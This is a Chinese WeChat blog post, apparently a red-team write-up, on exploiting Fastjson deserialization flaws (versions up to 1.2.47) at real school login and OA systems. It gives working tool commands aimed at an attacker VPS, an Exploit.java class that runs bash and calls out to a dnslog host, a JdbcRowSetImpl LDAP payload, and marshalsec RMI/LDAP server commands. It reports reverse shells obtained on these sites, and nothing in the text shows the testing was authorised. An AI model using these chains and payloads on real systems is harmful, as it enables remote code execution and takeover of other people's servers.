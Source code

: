 #  红队评估 | 关于我在实战中遇到的Fastjson

原创 yourposec  [ 不懂安全的校长 ](javascript:void\(0\);)

**不懂安全的校长** ![]()

微信号 sectip

功能介绍 校长不懂安全，总是发些奇奇怪怪的笔记！

____

__

收录于话题

## 0x01 前言

Hvv五件套: Log4j，Shiro，SpringBoot，Fastjson，弱口令

  

推荐一个论坛社区，感觉文章质量挺不错的

    
    
    https://www.cnsuc.net/  
    

## 0x02 案例一: 某职业学院报名登录入口存在fastjson

某学校官网看到一个高职扩招报名入口，点击进去,输入账号密码

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001814.png)

后无意看到burp插件扫出改登录口存在fastjson漏洞。

一般当我们看到利用链是用小于或登录1.2.47的利用链的时候这个漏洞就是稳稳存在的，如果是HTTP请求利用链的话，只能说明改网站用的是fastjson框架，但不一定是fastjson反序列化漏洞

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001816.png)

使用fastjson_tool去构造fastjson1.2.24-1.2.47左右的利用链 java -jar fastjson_tool.jar
fastjson.HLDAPServeer vps_ip 8080 "command" 然后可随意使用某条利用链后使用利用链请求，成功反弹shell

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001817.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001823.png)

## 0x03 案例二: 某学院OA系统fastjson

某学校OA后台登录框中测试，登录入口存在fastjson<=1.2.47的反序列化漏洞

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001826.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001828.png)

通过利用链可看出该fastjson版本在1.2.47左右,这里我们直接使用

    
    
    java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C '[command]ping dnslog.cn' -A vps_ip  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001831.png)

这里选择的利用链要和我们服务器对应得java版本一样,这里选择jdk1.8版本得进行测试ldap和rmi，并无任意返回

后面就进入了沉思阶段，想着使用飞鸿得JNID回显利用链进行反弹，然后得然后，github突然打不开了，后发现jdk1.8和jdk1.7之间还有个spring1.2.x
和tomcat 8版本左右得利用链，想着死马当活马医算了，结果还真rce了（当然飞鸿师傅的JNDI注入回显利用工具也是可以的）

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001834.png)

使用该工具去反弹shell得时候我们需要去java.lang网站去进行base64编码

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001837.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001838.png)

成功反弹shell

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001841.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001843.png)

## 0x04 案例三

同样也是在某次后台登陆时，发现请求包时json格式，然后立马去看看工具里面有无fastjson成功记录，结果是有的，这种http请求利用链一般都是1.2.24反序化得利用链。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001845.png)

但是看到http请求利用链心就凉了一大截，如果是HTTP请求利用链的话，之能说明改网站用的是fastjson框架，但不一定存在fastjson反序列化漏洞，这里一开始是使用了fastjson_tools和JNDI-
Injection-Exploit-1.0-SNAPSHOT-all.jar都无请求成功结果。后面使用最古老的方式，先构造Exploit.java文件。

    
    
    import java.io.BufferedReader;  
    import java.io.InputStream;  
    import java.io.InputStreamReader;  
      
    public class Exploit{  
        public Exploit() throws Exception {  
            Process p = Runtime.getRuntime().exec(new String[]{"bash", "-c", "curl omqq0z.dnslog.cn"});  
            InputStream is = p.getInputStream();  
            BufferedReader reader = new BufferedReader(new InputStreamReader(is));  
      
            String line;  
            while((line = reader.readLine()) != null) {  
                System.out.println(line);  
            }  
      
            p.waitFor();  
            is.close();  
            reader.close();  
            p.destroy();  
        }  
      
        public static void main(String[] args) throws Exception {  
        }  
    }  
    

 **附加：利用链,自己也可以去网上收集利用链**

    
    
    {  
      
        "b":{  
      
            "@type":"com.sun.rowset.JdbcRowSetImpl",  
      
            "dataSourceName":"ldap://ip:9999/Exploit",  
      
            "autoCommit":true  
      
        }  
      
    }  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001848.png)

然后使用javac Exploit.java为一个class文件，同时在同目录下开一个http服务（因为懒所以就没有截图了）

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001851.png)

看网上都是使用RMI格式进行rce，这里我们也是首先尝试RMI

    
    
    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer “http://vps_ip/8000/#Exploit" 9999  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001854.png)

RMI服务这边有回显，但是http服务那边无请求

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001856.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001859.png)

使用LDAP进行请求rce，ldap服务这边有请求回显、http服务有请求回显，命令执行成功。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001902.png)

构造bash反弹，成功getshell (工具githu上全有，自己所搜就行)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001905.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001908.png)

**从现在开始，星球定价150元！日后只有慢慢涨没有跌价！现在入股不亏，持续输出原创文章，还是小有干货的！**![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001911.png)  

预览时标签不可点

收录于话题 #

 个

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![示意图](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

红队评估 | 关于我在实战中遇到的Fastjson

最多200字，当前共字

__

发送中

[写留言](javascript:;)

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。 视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

